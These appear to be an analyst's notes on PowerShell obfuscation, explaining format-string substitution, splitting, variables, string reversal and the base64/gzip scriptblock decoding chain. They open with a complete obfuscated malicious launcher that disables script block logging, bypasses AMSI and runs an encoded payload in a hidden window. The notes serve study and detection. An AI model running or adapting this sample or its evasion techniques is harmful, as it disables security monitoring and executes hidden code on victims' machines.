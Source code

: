 https://www.blackhat.com/docs/us-17/thursday/us-17-Bohannon-Revoke-Obfuscation-PowerShell-Obfuscation-Detection-And%20Evasion-Using-Science-wp.pdf

# Example:
```
"powershell.exe" -nop -w hidden -noni -c "if([IntPtr]::Size -eq 4){$b='powershell.exe'}else{$b=$env:windir+'\syswow64\WindowsPowerShell\v1.0\powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hidden -c $tjtrJ=((''''+''Enabl{3}Sc{''+''2}ipt{1}lo''+''c{4}{0''+''}nv''+''ocation{5}ogg''+''i''+''ng'')-f''I'',''B'',''r'',''e'',''k'',''L'');
$gwcY=((''{''+''3}nabl{2}Sc{''+''1}i''+''pt{0}lockL''+''ogging''+'''')-f''B'',''r'',''e'',''E'');
$jZ5C=((''Sc''+''ript{2}{1}oc{0}L''+''og''+''ging''+'''')-f''k'',''l'',''B'');
$xLV9W=[Collections.Generic.Dictionary[string,System.Object]]::new();If($PSVersionTable.PSVersion.Major -ge 3){$znaT=[Ref].Assembly.GetType(((''{0}''+''{''+''6''+''}''+''stem{9}''+''{4''+''}ana''+''{3''+''}ement{9}{''+''7}''+''{2''+''}''+''t{''+''8}''+''mati{8}n{''+''9}{7}ms''+'
'i''+''{''+''1}t''+''i{5''+''}s'')-f''S'',''U'',''u'',''g'',''M'',''l'',''y'',''A'',''o'',''.''));
$uYi_U=[Ref].Assembly.GetType(((''''+''{3}''+''ystem.{''+''2}a''+''na{0}ement.''+''{''+''1}utomation.{4}''+''ti{5}s'')-f''g'',''A'',''M'',''S'',''U'',''l'')); if ($znaT) {$znaT.GetField(((''am{''+''3''+''}i{0''+''}{2}i{''+''1}''+''Fa''+''i''+''{4''+''}ed'')-f''I'',''t'',''n'',''s'',''l''),''NonPublic,Static'').SetValue($null,$true); };
$ff4Nc=$uYi_U.GetField(''cachedGroupPolicySettings'',''NonPublic,Static''); If ($ff4Nc) { $lUh3W=$ff4Nc.GetValue($null); If($lUh3W[$jZ5C]){ $lUh3W[$jZ5C][$gwcY]=0;
$lUh3W[$jZ5C][$tjtrJ]=0; } $xLV9W.Add($gwcY,0); $xLV9W.Add($tjtrJ,0);
$lUh3W[''HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\''+$jZ5C]=$xLV9W; } Else {[Ref].Assembly.GetType(((''Sy{''+''0}tem.Management''+''.A{''+''4}''+''tomatio''+''n.S''+''c{1}ipt''+''{2}{5}oc{3''+''}'')-f''s'',''r'',''B'',''k'',''u'',''l'')).GetField(''signatures'',''NonPublic,Static'').SetValue($null,(New-Object Collections.Generic.HashSet[string])); }};&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String(((''H4sIAH8phmICA7VX+''+''2/iS''+''BL+faX9H6wVEkYhYAPJhZFGOhtsMMG8/MKwaNXYDTS0bW''+''I3ELK7//tV80gyN8nd3EljCcXu{2}''+''qqu/uq{2}Rxa7OGAki{1}VWDY{1}/f/1FuDwDlKJIEHPR4zosCjkajNe48LYNCx''+''vhqyBOle22mUSIxLMvXxq7NMUxO3+XWpgpWYajOSU4EwvCX4K3wim+7c/XOGDCn0Luj1KLJnNEL2LHBgpWWLhV4pDvdZMAcc9K1pYSJuZ//z1fmN7Ks5L2t''+''EM0E/PWMWM4KoWU5gvC3wV+oH3cYjFvkiBNsmTBSh6Jq5WSE2dogXtgbY9NzFZJmOXhLm+3STHbpfHpUtzKWUbMw+sgT{1}IlDFOcZfmiMOX2p7PZP8Xp5fDRLmYkwiUjZjhNthZO9yTAWamN4pDiEV7M{1}MtiK''+''YmXs0IBxPbJBou5eEdpUfhfzIg9fLhC96NK4nslkBqwtFCEmH5/TTMJdxSfFfMf+Hmi{1}{1}GeVyoAfn9zCBdX/hx{2}Dx/w523h+kxPOxhcFgdJRk66XwWpKJhwOmJJeoTPnJ3ucGH2C{2}i{1}e+paD8UftSZfVbmiBwtTNyHh7E39m+jnNu3I0bnU52Ru4gWJcfMYo4gEV76KHwUFLyg+IVK6ivXA{1}TF/2cBhE1O8RIzjzLnxnZoWEfaqq+4IDXGqBBDYDLyCmBe+deYcOjFvxCaOAL3zN5A1t4AswVfpS2Yc{2}6fzbxDKNyjKsq''+''Iw2''+''EGaBkXBwo''+''hiSHglzshl''+''S9mx5PSaf3PX3FFGApSxq7lZ4d/xvJzbSOKMpbsAAgsY2NYWBwRRDklRaJM{1}q0eLLK/n5z8EpIEohfwBS3sICKxwI''+''CzG6ZLy''+''2sSpUShZmBnRluIIZE51{1}6doCVXikiUnfqElDvOfeXpNhzP3OTZXUN75C{1}G3aMKKgktSBmWI4/zk/V9OfF9+zt40UnyJj3hNsql6ZDwNcoc/As7TC0YnRFIGaOhpEqkow/e1c60Rfyv3yUCBx2+2{2}YnBLBN+TSOmRDYcUjUSc/EwYFISmUEjG7T0B4UclofgoacEYSfEdcutMUszWGOgtIdEUmu{2}{1}JVseHcMZ{2}{1}M5htK214FVBo022XLzyRyaHvc1tlGUKu1x5JS{2}db6VWkD6PlEXm6UsBeRw3MX3qGo9{2}uqkamS{1}bVOYzT3''+''Kv{2}Eo+1yTV8tvCSz7v1muVyuh6h1R0NFTcIK3SF3lNjtIFLLZdcMme3IPdu5ISq/p+3V75H3nPnWg9xdK8vHFh363vAfhtYbupY6cI7Kc899eBm/aMt5i6YTS+35n{2}m0ZXPpNTbL4Vg9zFvueOJ1umg83PfWCtjRdqbtLB81Z{2}iab''+''HYbaoY8Rg0tpH6F7R8t1ZuMOy/Iq++6Lx{2}IG0vwg4AflH+PbE3qN1Tb9ya{2}INpwmxLYVFBz62G0KMtuz0ZLuENlFWhDRblvmvwu+1579D{1}nMnK1iWl5juw2w8R+M''+''Wp''+''zV++F1dVkSOnBch5qvbW+Np1R14xHVcudDLDuRqEUbnxvFA83YXUU1dlkPdLnY/Mw15gauuEBNzcVX5{2}0{2}aZTHWnUMt3tnbPZtvs6bVhxZ41sN5vTVTNw6m''+''vf0425I79MKqNFKD0bOA4Zcphstfxnx6HSpO3e2c7dMJTqkblxj67baZgVeTe3fcmu9Iy52xmNWndqb6wd7a{2}aVH{1''+''}1cWvR4nlfdkkwsZGiHO+NEY/j2JEnyb3s7Po{1}Wxolj+MKUcyDohCsPqm6+tSG/dBBeAW6p7jDd3fo+xjkgZuy3iKGBvJIsw893CzLTl1+wasO5wbaqInCkW0tFUVTFMDb3+oDWq57YKffuZPDRGnAvt7zkP{2}oEdwty/5YCc2b{2}npoN7n9O3fdHN+sUiBl2b{1}V4IV/gHiffkp''+''3v2xbySN6RO5+Ui3L9qG1UJ6UmxtVVues{2}VU7e7RU7XLd+fob5PTUITG{2}Vma59O7Z4c3v119yq9G9+S61P+vtJkqzFaK{1}8tC1{2}8''+''VXT1L90oY''+''HCeEaosjHu{1}1OY0xhAIIR6VqwFEqTgE8BvF/DAHIeC/iU4hgnpz56Kwivgo''+''W36eC69OXLBHyEGgjVqdTF8ZKtitJzVZKgqUvPUu1U6378Yo1kexS5''+''{2}SKfCk7AXGzTk20wRxaCKP50qGD2Y9CCPgX{2}M9zg5A30C+hg5yLO0VOThL7H7nKtVya8gw4wk+HiUz71nRgCBm7xk5BjfCZ6P2PlsPZTKXPpRCv4E/4Xy{2}yt/YfdH6KRVDxj893yt''+''wvvuvjPA8BDhIGgBR2V4vOc9yEOlyx5F16s{1}{1}osLg//36e/Y7c9mKZPHf1f580shnUNAAA{0}'')-f''='',''Q'',''r'')))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);"
```
# Substitution:
Using Substitution to break up the code making it harder to read or pattern match. 
```
$gwcY=((''{''+''3}nabl{2}Sc{''+''1}i''+''pt{0}lockL''+''ogging''+'''')-f''B'',''r'',''e'',''E''); 
```
```
''B'',''r'',''e'',''E''
  0     1     2     3
$gwcY=EnableScriptBlockLogging
```

# Splitting
Adding white space (concatenation) that is removed when the code it ran. This won't affect its ability to run but will make it harder to read or pattern match. 
```
''+''
```
***Note:*** this is just a concatenation and can be removed when reversing 


# Variables
Use variables to break up the code making it harder to read or pattern match
```
$nTlW = New-Object Microsoft.CSharp.CSharpCodeProvider
$cUj0x = New-Object System.CodeDom.Compiler.CompilerParameters
$cUj0x.ReferencedAssemblies.AddRange(@("System.dll", [PsObject].Assembly.Location))
$cUj0x.GenerateInMemory = $True
$zgA = $nTlW.CompileAssemblyFromSource($cUj0x, $dn)
```

# Reverse a String:
## Non Regex
```
$string = "This is a test, hope it works!"
$arr = $string -split ""
[array]::Reverse($arr)
$arr -join ''
```
```
$str = "This is a test, hope it works!"
$str[-1..-($str.length)] -join ""
```
```
$str = “This is a test, hope it works!” -join (($str.length-1)..0 | Foreach-Object { $str[$_] })
```
```
“This is a test, hope it works!” -split “” | ForEach-Object -Begin {$a = @()} -Process {$a = $_ + $a} -End {$a}
```
## Regex
```
$String = "This is a test, hope it works!"
([regex]::Matches($String,'.','RightToLeft') | ForEach {$_.value}) -join ''
```

## Other
```
$PTR = “100.1.1.10.in-addr.arpa”
$t = $PTR -replace ‘.in-addr.arpa$’ -split ‘.’
$IP = $t[-1..-($t.Count)] -join ‘.’
$IP
```
##### Response
```
10.1.1.100
```
## ScriptBlock
```
&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object
System.IO.Compression.GzipStream((New-Object
System.IO.MemoryStream(,[System.Convert]::FromBase64String(...),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';
```
1. [scriptblock]::create - create an object representing a pre-compiled block of powershell script New-Object System.IO.StreamReader - read file data
2. New-Object System.IO.Compression.GzipStream - decompress byte array
3. New-Object System.IO.MemoryStream(, - Passing an array of bytes to system.IO.MemoryStream (the coma following the paraenthesis is important) https://scriptingetc.wordpress.com/2019/05/22/passing-an-array-of-bytes-to-system-io-memorystream/
4. [System.Convert]::FromBase64String - which converts a base64-encoded string to a byte array






# Powershell notes:
1. NoE – NoExit: Doesn’t exit after running the command, i.e. creates a process and stays running as powershell.exe
2. NoP – NoProfile: Doesn’t load the PowerShell profile
3. NonI – NonInteractive: Doesn’t create an interactive prompt, i.e. it runs the command without the PowerShell window popping up a persistent terminal on the user’s screen
4. ExecutionPolicy Bypass: Bypasses the execution policy if it is set (self-explanatory)
5. C – Command: What to run (again, pretty self-explanatory)
6. Set-Alias cmdlet - sal: creates a shortcut ‘a’ for New-Object







# Resoures:
1. https://www.huntress.com/blog/from-powershell-to-payload-an-analysis-of-weaponized-malware
2. https://github.com/danielbohannon/Invoke-Obfuscation
3. https://github.com/danielbohannon/Revoke-Obfuscation
4. https://github.com/danielbohannon/Invoke-CradleCrafter
5. https://github.com/JoelGMSec/Invoke-Stealth
6. https://github.com/GhostPack/Invoke-Evasion
7. https://github.com/tokyoneon/Chimera
8. https://github.com/klezVirus/chameleon
9. https://github.com/vysecurity/ps1-toolkit
10. https://github.com/CBHue/PyFuscation
11. https://github.com/Mr-Un1k0d3r/Base64-Obfuscator
